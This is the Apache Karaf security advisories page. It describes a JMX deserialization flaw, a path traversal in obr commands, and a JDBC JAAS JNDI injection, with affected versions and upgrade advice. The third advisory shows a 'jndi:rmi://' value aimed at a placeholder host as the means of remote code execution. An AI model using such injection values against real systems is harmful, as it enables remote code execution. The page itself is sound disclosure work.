 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## Insecure Java Deserialization in Apache Karaf ## { #CVE-2021-41766 }

CVE-2021-41766 [\[CVE json\]](./CVE-2021-41766.cve.json)

_Last updated: 2022-01-25T14:39:43.793Z_

### Affected

* Apache Karaf from Apache Karaf before 4.3.6


### Description

Apache Karaf allows monitoring of applications and the Java runtime by
using the Java Management Extensions (JMX).
JMX is a Java RMI based technology that relies on Java serialized
objects for client server communication.
Whereas the default JMX implementation is hardened against
unauthenticated deserialization attacks, the implementation
used by Apache Karaf is not protected against this kind of attack.

The impact of Java deserialization vulnerabilities strongly depends
on the classes that are available within the targets
class path. 
Generally speaking, deserialization of untrusted data does always 
represent a high security risk and should be prevented.

The risk is low as, by default, Karaf uses a limited set of classes in the JMX server class path.
It depends of system scoped classes (e.g. jar in the lib folder).

### References
* https://karaf.apache.org/security/cve-2021-41766.txt


### Credits
* This issue was reported by Daniel Heyne, Konstantin Samuel and Tobias Neitzel.


## Path traversal flaws ## { #CVE-2022-22932 }

CVE-2022-22932 [\[CVE json\]](./CVE-2022-22932.cve.json)

_Last updated: 2022-01-25T14:53:17.546Z_

### Affected

* Apache Karaf from Apache Karaf before 4.2.15


### Description

Apache Karaf obr:* commands and run goal on the karaf-maven-plugin have partial
path traversal which allows to break out of expected folder.

The risk is low as obr:* commands are not very used and the entry is set by user.

This has been fixed in revision:

https://gitbox.apache.org/repos/asf?p=karaf.git;h=36a2bc4
https://gitbox.apache.org/repos/asf?p=karaf.git;h=52b70cf

Mitigation: Apache Karaf users should upgrade to 4.2.15 or 4.3.6
or later as soon as possible, or use correct path.

JIRA Tickets: https://issues.apache.org/jira/browse/KARAF-7326

### References
* https://karaf.apache.org/security/cve-2022-22932.txt


### Credits
* This issue was discovered and reported by GHSL team member Jaroslav Lobacevski


## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

CVE-2022-40145 [\[CVE json\]](./CVE-2022-40145.cve.json)

_Last updated: 2022-12-21T15:53:26.357Z_

### Affected

* Apache Karaf from 4.4.0 before 4.4.2
* Apache Karaf before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

### References
* https://karaf.apache.org/security/cve-2022-40145.txt


### Credits
* Xun Bai <bbbbear68@gmail.com> (reporter)
